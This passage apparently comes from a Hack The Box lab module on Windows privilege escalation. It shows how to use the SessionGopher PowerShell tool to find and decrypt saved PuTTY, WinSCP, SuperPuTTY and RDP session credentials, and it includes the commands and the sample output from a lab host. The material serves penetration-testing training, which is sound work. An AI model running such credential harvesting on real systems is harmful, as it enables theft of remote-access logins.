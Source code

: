 
## Even More Fun with Credentials

We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials. The tool is written in PowerShell and searches for and decrypts saved login information for remote access tools. It can be run locally or remotely. It searches the `HKEY_USERS` hive for all users who have logged into a domain-joined (or standalone) host and searches for and decrypts any saved session information it can find. It can also be run to search drives for PuTTY private key files (.ppk), Remote Desktop (.rdp), and RSA (.sdtid) files.

#### Running SessionGopher as Current User

We need local admin access to retrieve stored session information for every user in `HKEY_USERS`, but it is always worth running as our current user to see if we can find any useful credentials.

```powershell-session
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local
 

 
SuperPuTTY Sessions
 
 
Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
SessionName   : NIX03
Host          : nix03.inlanefreight.local
Username      : srvadmin
ExtraArgs     :
Port          : 22
Putty Session : Default Settings
```

---